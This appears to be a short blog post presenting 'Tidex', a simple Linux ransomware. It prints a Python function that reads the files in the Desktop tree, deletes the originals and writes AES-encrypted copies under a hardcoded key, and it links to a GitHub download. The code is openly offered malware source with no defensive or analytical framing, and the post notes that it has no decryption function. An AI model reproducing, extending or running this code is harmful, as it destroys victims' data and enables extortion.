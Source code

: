 ```yaml
---
title: "[EN] Tidex Ransomware"
excerpt: "[EN] Ransomware Tidex for Linux"
date: "Jan 30 2023"
cover_image: "/blog/tidex.webp"
---
```


# Tidex
Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;
# Important
At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: hkpykiiqftupr3okl04azj

&nbsp;

Code Example

``` Python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

# [Dowload Hore From GitHub](https://github.com/Rawierdt/Tidex)

# Thx
# ~ Rawier.
